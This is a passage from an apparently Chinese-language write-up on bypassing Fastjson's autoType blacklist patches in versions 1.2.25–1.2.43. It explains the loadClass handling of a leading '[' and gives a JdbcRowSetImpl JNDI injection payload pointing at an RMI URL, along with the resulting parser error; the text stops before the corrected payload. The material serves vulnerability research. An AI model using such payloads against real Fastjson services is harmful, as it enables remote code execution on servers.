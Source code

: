 ![image-20220302164919232](images/10.png)

在1.2.22-1.2.42版本运行都能成功触发

因为多加的一个`L`和`;`只是为了绕过黑名单,而真正的处理还是loadClass方法的循环调用机制

# 1.2.25-1.2.43补丁绕过

在1.2.43的版本中,checkAutoType里面添加了如下代码，连续出现两个L会抛出异常

![image-20220302182423045](images/11.png)

## 绕过思路

可以再来看看loadClass方法

![image-20220302190037919](images/12.png)

我们之前用的都是第二个elseif，都是现在两个L会报错，不过可以来看看第一个elseif，如果以`[`开头的话也会去掉第一个字符然后通过Array.newInstance().getClass()来获取并返回类

可以用如下payload试试看

```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

出现了这样的报错

```
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/badNameClass", "autoCommit":true}
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseArray(DefaultJSONParser.java:675)
	at com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze(ObjectArrayCodec.java:183)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:373)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1338)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1304)
	at com.alibaba.fastjson.JSON.parse(JSON.java:152)
	at com.alibaba.fastjson.JSON.parse(JSON.java:162)
	at com.alibaba.fastjson.JSON.parse(JSON.java:131)
	at Fastjson.Test.Unser.main(Unser.java:10)
```

说希望在pos42的位置有一个`[`

看看pos42是什么

![image-20220302190700128](images/13.png)

因为是从0开始的,所以42列应该是`,`，也就是应该在`,`前面加上一个`[`

更换payload为
